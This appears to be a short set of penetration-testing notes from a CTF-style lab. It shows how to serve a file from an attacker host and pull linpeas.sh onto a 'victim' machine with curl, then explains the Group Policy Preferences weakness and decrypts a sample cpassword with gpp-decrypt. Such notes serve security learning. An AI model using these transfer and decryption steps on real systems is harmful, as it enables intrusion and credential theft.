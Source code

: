# How to transfer file from your machine to victim's?

1. Open http server using Python
```
python3 -m http.server 80
```
2. On victim's machine type:
```
curl -O http://10.10.14.24/linpeas.sh
```

# About Group Policy Preferences

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features,
allowed administrators to modify users and groups across their network.
An example use case is where a company’s gold image had a weak local administrator password, and
administrators wanted to retrospectively set it to something stronger. The defined password was AES-256
encrypted and stored in Groups.xml . However, at some point in 2012, Microsoft published the AES key on
MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

![image](https://github.com/user-attachments/assets/ab5fcc0b-38ff-4d15-a5d7-674722884bd5)

### Example

We extract the encrypted password form the Groups.xml file and decrypt it using gpp-decrypt .

```
gpp-decrypt
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
